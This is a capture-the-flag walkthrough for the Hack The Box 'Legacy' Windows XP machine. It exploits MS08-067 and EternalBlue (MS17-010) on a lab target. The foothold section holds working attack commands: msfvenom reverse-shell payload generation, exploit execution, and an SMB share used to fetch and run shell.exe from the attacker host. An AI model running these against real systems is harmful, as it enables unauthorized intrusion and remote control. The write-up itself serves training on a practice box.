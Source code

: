 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

## Information Gathering

### Openning Services

+ SMB Windows XP

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.10.4
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 139,445,3389

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.4 -p139,445,3389
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 16:50 +07
Nmap scan report for 10.10.10.4
Host is up (0.26s latency).

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h29m07s, deviation: 2h07m16s, median: 4d22h59m07s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:e0:2d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-05-02T14:49:37+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.45 seconds
```

### Server Message Block

Using `nmap` to scan smb vulnerability:

```
┌──(Hades㉿10.10.14.5)-[0.6:18.5]~/scripting
└─$ nmap -p 139,445 --script smb-vul* 10.10.10.4 -Pn
<snip>
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
<snip>
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
<snip>
```

## Foothold

### Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)

Using exploit <a href='https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py' target="blank">ms08-067.py</a> to get reverse shell in the server.

Modify exploit by `REPLACE SHELLCODE with shellcode generated by msfvenom` with the bad chars: `"\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Convert `ms08-067.py` to python3

```
2to3 ms08-067.py
```

Execute exploit

```bash
python3 ms08-067.py 10.10.10.4 6 445 > /dev/null
```

![](images/2.png)

### Microsoft Security Bulletin MS17-010 (EternalBlue/MS17-010)

Using exploit `send_and_execute.py` at <a href='https://github.com/helviojunior/MS17-010' target="blank">https://github.com/helviojunior/MS17-010</a>

Generate reverse shell file `shell.exe` in the same payload's folder using `msfvenom`.

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

Execute exploit

```bash
python send_and_execute.py 10.10.10.4 shell.exe > /dev/null
```

![](images/5.png)

I also custom exploit file by input command to execution.

```
sudo smbserver.py public . > /dev/null
```

```
python cmd.py 10.10.10.4 '\\10.10.14.3\public\shell.exe' > /dev/null
```

![](images/6.png)

### Transfer and execute whoami.exe

Create smb server in Kali Machine to check privilege.

```
sudo smbserver.py public /usr/share/windows-resources/binaries/ > /dev/null
```

At the client, execute command `whoami`

```
\\10.10.14.3\public\whoami.exe
```

## Reference

[https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)

<a href='https://0xdf.gitlab.io/2019/02/21/htb-legacy.html' target="blank">https://0xdf.gitlab.io/2019/02/21/htb-legacy.html</a>

<a href='https://pycryptodome.readthedocs.io/en/latest/src/installation.html' target="blank">https://pycryptodome.readthedocs.io/en/latest/src/installation.html</a>